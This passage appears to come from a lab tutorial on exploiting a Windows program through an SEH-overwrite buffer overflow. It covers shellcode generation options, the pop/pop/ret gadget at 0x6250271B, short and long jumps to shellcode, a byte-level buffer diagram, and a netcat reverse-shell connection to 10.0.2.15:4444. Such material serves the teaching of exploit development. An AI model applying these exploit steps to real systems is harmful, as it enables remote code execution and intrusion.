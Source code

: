      * `SHELL`: Shell Variable name.
     * `-a x86`: Specify the target architecture as `x86`
     * `--platform windows`: Specify the target platform as Windows
     * `-b`: Specifies bad chars and byte values. This is given in the byte values.
       * `\x00\x0a\x0d`: Null char, carriage return, and newline.


2. Create the byte array representing the shellcode as done in [exploit6.py](./SourceCode/exploit6.py). Remember this should be placed at the start of the buffer! Now we are in the final stage. If all previous steps have succeeded then placing this shellcode at the start of the buffer should enabled us to get arbitrary code execution.
3. Now, let's see how the program reacts!
   1. Observe the exploit hitting the `pop/pop/ret` gadget after passing the exception to the program.
   2. Observe the program hitting the short jump instruction.
   3. Observe the program hitting the long jump instruction.
   4. Observe that we are not at the start of the shell code!

4. Now run netcat and use the reverse shell: `nc 10.0.2.15 4444`.

      <img src="Images/exploit1-exploit.png" width=600>

**Summary**: The tricky part is we use the address of a gadget (** pop ebx # pop ebp # ret **) to overwrite the SEH handler. The two pop instructions of the gadget move ESP to a location where an address within our buffer is stored. **ret** will make the instruction (a short jmp) at that addres to run, which jumps to the location where our long jmp is stored. The long jmp jumps to the shellcode. Can we just replace the short jmp with the long jmp to our shellcode?
* No, the short jmp cannot be replaced by the long jmp. Otherwise, it is more than 4 bytes and we cannot put the gadget address to the right location.
```
       |                                    |<-- High address
       |------------------------------------|
       | b'\xe9\x02\xf2\xff\xff'            | # 3. JMP to shellcode -------------------------
-----> |------------------------------------|                                                |
|      | Padding                            |                                                |
|      |------------------------------------|                                                |
|      | 0x6250271B (POP R32; POP R32; RETN)| # 1. Overwriting SEH handler; RETN will run -  |
|      |------------------------------------|                                             |  |
|      | b'\x90\x90'                        | # Padding                                   |  |
|      |------------------------------------|                                             |  |
|<--2. | b'\xeb\x08' (JMP SHORT +0xa)       |                                             |  |
       |------------------------------------|<-----------------Tricky part!---------------   |
       | b'A' * (3571 - 4 - len(SHELL))     | # Padding                                      |
       |------------------------------------|                                                |
       | SHELL                              |                                                |
       |------------------------------------|<------------------------------------------------
```